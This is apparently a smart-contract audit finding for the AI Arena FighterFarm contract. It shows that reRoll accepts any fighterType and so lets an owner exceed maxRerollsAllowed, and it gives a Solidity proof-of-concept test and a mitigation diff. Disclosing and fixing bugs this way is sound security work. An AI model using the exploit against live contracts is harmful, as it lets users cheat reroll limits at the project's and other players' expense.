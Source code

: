 # Since you can reroll with a different fighterType than the NFT you own, you can reroll bypassing maxRerollsAllowed and reroll attributes based on a different fighterType
## Impact
Can reroll attributes based on a different fighterType, and can bypass maxRerollsAllowed.

## Proof of Concept
maxRerollsAllowed can be set differently depending on the fighterType. Precisely, it increases as the generation of fighterType increases.
```solidity
function incrementGeneration(uint8 fighterType) external returns (uint8) {
    require(msg.sender == _ownerAddress);
@>  generation[fighterType] += 1;
@>  maxRerollsAllowed[fighterType] += 1;
    return generation[fighterType];
}
```
The reRoll function does not verify if the fighterType given as a parameter is actually the fighterType of the given tokenId. Therefore, it can use either 0 or 1 regardless of the actual type of the NFT.

This allows bypassing maxRerollsAllowed for additional reRoll, and to call _createFighterBase and createPhysicalAttributes based on a different fighterType than the actual NFT's fighterType, resulting in attributes calculated based on different criteria.
```solidity
function reRoll(uint8 tokenId, uint8 fighterType) public {
    require(msg.sender == ownerOf(tokenId));
@>  require(numRerolls[tokenId] < maxRerollsAllowed[fighterType]);
    require(_neuronInstance.balanceOf(msg.sender) >= rerollCost, "Not enough NRN for reroll");

    _neuronInstance.approveSpender(msg.sender, rerollCost);
    bool success = _neuronInstance.transferFrom(msg.sender, treasuryAddress, rerollCost);
    if (success) {
        numRerolls[tokenId] += 1;
        uint256 dna = uint256(keccak256(abi.encode(msg.sender, tokenId, numRerolls[tokenId])));
@>      (uint256 element, uint256 weight, uint256 newDna) = _createFighterBase(dna, fighterType);
        fighters[tokenId].element = element;
        fighters[tokenId].weight = weight;
        fighters[tokenId].physicalAttributes = _aiArenaHelperInstance.createPhysicalAttributes(
            newDna,
@>          generation[fighterType],
            fighters[tokenId].iconsType,
            fighters[tokenId].dendroidBool
        );
        _tokenURIs[tokenId] = "";
    }
}
```
This is PoC.

First, there is a bug that there is no way to set numElements, so add a numElements setter to FighterFarm. This bug has been submitted as a separate report.
```solidity
function numElementsSetterForPoC(uint8 _generation, uint8 _newElementNum) public {
    require(msg.sender == _ownerAddress);
    require(_newElementNum > 0);
    numElements[_generation] = _newElementNum;
}
```
Add a test to the FighterFarm.t.sol file and run it. The generation of Dendroid has increased, and maxRerollsAllowed has increased. The user who owns the Champion NFT bypassed maxRerollsAllowed by putting the fighterType of Dendroid as a parameter in the reRoll function.
```solidity
function testPoCRerollBypassMaxRerollsAllowed() public {
    _mintFromMergingPool(_ownerAddress);
    // get 4k neuron from treasury
    _fundUserWith4kNeuronByTreasury(_ownerAddress);
    // after successfully minting a fighter, update the model
    if (_fighterFarmContract.ownerOf(0) == _ownerAddress) {
        uint8 maxRerolls = _fighterFarmContract.maxRerollsAllowed(0);
        uint8 exceededLimit = maxRerolls + 1;
        uint8 tokenId = 0;
        uint8 fighterType = 0;

        // The Dendroid's generation changed, and maxRerollsAllowed for Dendroid is increased
        uint8 fighterType_Dendroid = 1;

        _fighterFarmContract.incrementGeneration(fighterType_Dendroid);

        assertEq(_fighterFarmContract.maxRerollsAllowed(fighterType_Dendroid), maxRerolls + 1);
        assertEq(_fighterFarmContract.maxRerollsAllowed(fighterType), maxRerolls); // Champions maxRerollsAllowed is not changed

        _neuronContract.addSpender(address(_fighterFarmContract));

        _fighterFarmContract.numElementsSetterForPoC(1, 3); // this is added function for poc

        for (uint8 i = 0; i < exceededLimit; i++) {
            if (i == (maxRerolls)) {
                // reRoll with different fighterType
                assertEq(_fighterFarmContract.numRerolls(tokenId), maxRerolls);
                _fighterFarmContract.reRoll(tokenId, fighterType_Dendroid);
                assertEq(_fighterFarmContract.numRerolls(tokenId), exceededLimit);
            } else {
                _fighterFarmContract.reRoll(tokenId, fighterType);
            }
        }
    }
}
```

## Lines of code
https://github.com/code-423n4/2024-02-ai-arena/blob/1d18d1298729e443e14fea08149c77182a65da32/src/FighterFarm.sol#L372

## Tool used
Manual Review

## Recommended Mitigation Steps
Check fighterType at reRoll function.
```solidity
function reRoll(uint8 tokenId, uint8 fighterType) public {
    require(msg.sender == ownerOf(tokenId));
    require(numRerolls[tokenId] < maxRerollsAllowed[fighterType]);
    require(_neuronInstance.balanceOf(msg.sender) >= rerollCost, "Not enough NRN for reroll");
+   require((fighterType == 1 && fighters[tokenId].dendroidBool) || (fighterType == 0 && !fighters[tokenId].dendroidBool), "Wrong fighterType");

    _neuronInstance.approveSpender(msg.sender, rerollCost);
    bool success = _neuronInstance.transferFrom(msg.sender, treasuryAddress, rerollCost);
    if (success) {
        numRerolls[tokenId] += 1;
        uint256 dna = uint256(keccak256(abi.encode(msg.sender, tokenId, numRerolls[tokenId])));
        (uint256 element, uint256 weight, uint256 newDna) = _createFighterBase(dna, fighterType);
        fighters[tokenId].element = element;
        fighters[tokenId].weight = weight;
        fighters[tokenId].physicalAttributes = _aiArenaHelperInstance.createPhysicalAttributes(
            newDna,
            generation[fighterType],
            fighters[tokenId].iconsType,
            fighters[tokenId].dendroidBool
        );
        _tokenURIs[tokenId] = "";
    }
}
```